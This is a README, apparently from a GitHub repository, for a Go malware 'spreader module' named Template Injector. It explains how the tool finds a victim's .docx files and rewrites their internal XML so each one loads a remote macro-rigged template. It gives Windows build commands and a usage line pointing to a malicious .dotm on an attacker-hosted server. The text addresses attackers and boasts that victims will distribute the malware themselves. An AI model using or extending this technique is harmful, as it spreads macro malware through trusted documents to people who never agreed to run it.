

# Template Injector

This spreader module works by searching for document files (specifically .docx files) on a victim's system & injecting a macro-rigged template into any found document files. Then, when the victim distributes the newly rigged document, the person that opens it & enables content will end up with our malware. This means that your victim will be distributing your malware for you!

This works by forcing the document to contain our malicious template (by modifying/adding internal files of the document such as app.xml, settings.xml, [Content-Types].xml, footnotes.xml, endnotes.xml, settings.xml.rels, document.xml.rels, )

Normally, template injection only works if the document was previously created with a template. For example, when you open Word, you're presented with a screen like this or similar:

When you choose a template (EX: the single spaced (blank) template), you can now perform template injection by unzipping the word document and modifying the `Target` variable in the `settings.xml.rels` file to be the location of your malicious template. But if your document was created without a template (Blank document for example), then you cannot perform template injection. 

This script will allow you to force a document with no template have a malicious template and essentally perform template injection. All you need to do is pass the URL of the malicious template to the `-url` flag.

# Compilation

* for 32-bit machines: `GOOS=Windows GOARCH=386 go build injector.go`
* for 64-bit machines: `GOOS=Windows GOARCH=amd64 go build injector.go`

# Command-Line Usage

* `injector.exe -url http://192.168.1.212:8000/maliciousTemplate.dotm` (Replace the url with where you have hosted your malicious template)

# References

* Converting from Unix LF to Windows CR LF - https://www.programming-books.io/essential/go/normalize-newlines-1d3abcf6f17c4186bb9617fa14074e48)
